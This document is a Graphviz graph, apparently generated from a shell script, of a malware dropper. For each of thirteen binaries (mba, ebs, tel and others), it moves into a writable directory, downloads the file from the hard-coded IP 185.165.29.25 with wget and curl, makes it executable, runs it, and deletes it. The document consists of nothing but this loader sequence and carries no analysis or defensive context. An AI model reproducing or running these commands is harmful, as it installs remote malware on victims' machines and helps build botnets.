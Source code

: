 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.165.29.25/mba "];
10 -> 12 [label=";,"];
12 [label="curl http://185.165.29.25/mba -O mba "];
12 -> 14 [label=";,"];
14 [label="chmod +x mba "];
14 -> 16 [label=";,"];
16 [label="./mba "];
16 -> 18 [label=";,"];
18 [label="rm -rf mba "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.165.29.25/ebs "];
30 -> 32 [label=";,"];
32 [label="curl http://185.165.29.25/ebs -O ebs "];
32 -> 34 [label=";,"];
34 [label="chmod +x ebs "];
34 -> 36 [label=";,"];
36 [label="./ebs "];
36 -> 38 [label=";,"];
38 [label="rm -rf ebs "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.165.29.25/ew "];
50 -> 52 [label=";,"];
52 [label="curl http://185.165.29.25/ew -O ew "];
52 -> 54 [label=";,"];
54 [label="chmod +x ew "];
54 -> 56 [label=";,"];
56 [label="./ew "];
56 -> 58 [label=";,"];
58 [label="rm -rf ew "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.165.29.25/aw "];
70 -> 72 [label=";,"];
72 [label="curl http://185.165.29.25/aw -O aw "];
72 -> 74 [label=";,"];
74 [label="chmod +x aw "];
74 -> 76 [label=";,"];
76 [label="./aw "];
76 -> 78 [label=";,"];
78 [label="rm -rf aw "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.165.29.25/ftr "];
90 -> 92 [label=";,"];
92 [label="curl http://185.165.29.25/ftr -O ftr "];
92 -> 94 [label=";,"];
94 [label="chmod +x ftr "];
94 -> 96 [label=";,"];
96 [label="./ftr "];
96 -> 98 [label=";,"];
98 [label="rm -rf ftr "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.165.29.25/er "];
110 -> 112 [label=";,"];
112 [label="curl http://185.165.29.25/er -O er "];
112 -> 114 [label=";,"];
114 [label="chmod +x er "];
114 -> 116 [label=";,"];
116 [label="./er "];
116 -> 118 [label=";,"];
118 [label="rm -rf er "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.165.29.25/re "];
130 -> 132 [label=";,"];
132 [label="curl http://185.165.29.25/re -O re "];
132 -> 134 [label=";,"];
134 [label="chmod +x re "];
134 -> 136 [label=";,"];
136 [label="./re "];
136 -> 138 [label=";,"];
138 [label="rm -rf re "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.165.29.25/ty "];
150 -> 152 [label=";,"];
152 [label="curl http://185.165.29.25/ty -O ty "];
152 -> 154 [label=";,"];
154 [label="chmod +x ty "];
154 -> 156 [label=";,"];
156 [label="./ty "];
156 -> 158 [label=";,"];
158 [label="rm -rf ty "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.165.29.25/ke "];
170 -> 172 [label=";,"];
172 [label="curl http://185.165.29.25/ke -O ke "];
172 -> 174 [label=";,"];
174 [label="chmod +x ke "];
174 -> 176 [label=";,"];
176 [label="./ke "];
176 -> 178 [label=";,"];
178 [label="rm -rf ke "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.165.29.25/as "];
190 -> 192 [label=";,"];
192 [label="curl http://185.165.29.25/as -O as "];
192 -> 194 [label=";,"];
194 [label="chmod +x as "];
194 -> 196 [label=";,"];
196 [label="./as "];
196 -> 198 [label=";,"];
198 [label="rm -rf as "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.165.29.25/fg "];
210 -> 212 [label=";,"];
212 [label="curl http://185.165.29.25/fg -O fg "];
212 -> 214 [label=";,"];
214 [label="chmod +x fg "];
214 -> 216 [label=";,"];
216 [label="./fg "];
216 -> 218 [label=";,"];
218 [label="rm -rf fg "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.165.29.25/sddf "];
230 -> 232 [label=";,"];
232 [label="curl http://185.165.29.25/sddf -O sddf "];
232 -> 234 [label=";,"];
234 [label="chmod +x sddf "];
234 -> 236 [label=";,"];
236 [label="./sddf "];
236 -> 238 [label=";,"];
238 [label="rm -rf sddf "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.165.29.25/tel "];
250 -> 252 [label=";,"];
252 [label="curl http://185.165.29.25/tel -O tel "];
252 -> 254 [label=";,"];
254 [label="chmod +x tel "];
254 -> 256 [label=";,"];
256 [label="./tel "];
256 -> 257 [label=";,"];
}
